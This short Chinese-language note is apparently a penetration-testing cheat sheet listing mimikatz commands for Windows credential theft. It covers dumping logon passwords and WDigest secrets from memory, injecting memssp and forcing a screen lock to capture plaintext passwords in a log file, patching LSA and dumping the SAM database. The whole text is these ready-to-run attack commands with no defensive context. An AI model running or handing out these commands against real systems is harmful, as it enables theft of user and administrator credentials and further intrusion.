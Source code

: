 #### 单行命令
	>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt 
#### 控制台
  	PS C:\temp\mimikatz> .\mimikatz
	mimikatz # privilege::debug
	mimikatz # log
	mimikatz # sekurlsa::logonpasswords
	mimikatz # sekurlsa::wdigest

	>privilege::debug
	>misc::memssp
	锁屏
	>rundll32.exe user32.dll,LockWorkStation
	记录的结果在c:\windows\system32\mimilsa.log
	>mimikatz log "privilege::debug" "lsadump::lsa /patch"
	>mimikatz !privilege::debug 
	>mimikatz !token::elevate 
	>mimikatz !lsadump::sam
